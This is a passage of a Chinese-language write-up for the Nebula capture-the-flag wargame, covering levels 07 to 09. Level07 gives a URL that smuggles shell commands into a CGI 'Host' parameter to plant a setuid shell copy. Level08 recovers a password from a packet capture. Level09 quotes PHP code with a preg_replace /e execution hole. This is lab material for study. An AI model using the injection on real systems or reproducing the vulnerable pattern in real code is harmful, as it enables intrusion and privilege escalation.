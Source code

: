 我们采用与level03相同的方法来获取shell，编写并编译获取shell的C程序。利用`cgi`程序的命令注入来将程序拷贝并增加`suid bit`。

将编译好的程序放至`/tmp/bash`，然后访问以下网址（其中要注意URL编码的问题）：

	http://your-ip:7007/index.cgi?Host=127.0.0.1%3bcp%20/tmp/bash%20/home/flag07/bash%3bchmod%20%2bs%20/home/flag07/bash

之后可以看到flag07目录下已经有了`bash`文件，执行获取shell：

![level07](level07_1.png)



## Level08

此题在flag08用户目录下可以看到一个`capture.pcap`文件，显然是一个流量包文件，将它下载后（可以使用scp、sftp等方法下载）用`wireshark`打开分析，可以看到以下内容：

![流量分析](level08_1.png)

可以看到此处有输入的密码，注意密码中的`.`是不可见字符，查看流量包可以发现它对应的是ASCII的`7f`——即为`DEL`删除。所以实际的密码是`backd00Rmate`。

使用此密码登录flag08账户即可。



## Level09

题目给出如下PHP代码：

``` php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

```